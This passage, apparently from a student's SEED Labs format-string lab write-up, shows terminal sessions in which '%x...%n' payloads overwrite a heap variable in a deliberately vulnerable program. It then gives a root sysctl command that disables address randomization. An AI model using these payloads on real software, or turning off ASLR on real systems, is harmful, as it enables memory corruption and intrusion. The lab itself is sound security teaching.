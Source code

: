 `U`'s ascii value is 55.

Modify the `secret[1]` value:

```sh
seed@ubuntu:~$ ./vul_prog 
The variable secret's address is 0xbfe4e8d0 (on stack)
The variable secret's value is 0x 9592008 (on heap)
secret[0]'s address is 0x 9592008 (on heap)
secret[1]'s address is 0x 959200c (on heap)
Please enter a decimal integer
156835852
Please enter a string
%08x/%08x/%08x/%08x/%08x/%08x/%08x/%08x/%n
bfe4e8d8/00000001/b7623309/bfe4e8ff/bfe4e8fe/00000000/bfe4e9e4/09592008/
The original secrets: 0x44 -- 0x55
The new secrets:      0x44 -- 0x48
```

Modify the `secret[1]` value to a pre-determined value:

```sh
[08/09/2016 00:12] seed@ubuntu:~$ ./vul_prog 
The variable secret's address is 0xbfea5e60 (on stack)
The variable secret's value is 0x 8112008 (on heap)
secret[0]'s address is 0x 8112008 (on heap)
secret[1]'s address is 0x 811200c (on heap)
Please enter a decimal integer
135340044
Please enter a string
%08x/%08x/%08x/%08x/%08x/%08x/%08x/%.228u%n
bfea5e68/00000001/b7666309/bfea5e8f/bfea5e8e/00000000/bfea5f74/000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000135340040
The original secrets: 0x44 -- 0x55
The new secrets:      0x44 -- 0x123
```

0x123 = 291 = 9*7+228

### Task 2: Memory randomization

If the first scanf statement (`scanf("%d", int_input)`) does not exist, i.e., the program does not ask you to enter an integer, the attack in Task 1 become more difficult for those operating systems that have implemented address randomization. Pay attention to the address of `secret[0]` (or `secret[1]`). When you run the program once again, will you get the same address?

Address randomization is introduced to make a number of attacks difficult, such as buffer overflow, format string, etc. To appreciate the idea of address randomization, we will turn off the address randomization in this task, and see whether the format string attack on the previous vulnerable program (without the first scanf statement) is still difficult. You can use the following command to turn off the address randomization (note that you need to run it as root):

```sh
sysctl -w kernel.randomize_va_space=0
```

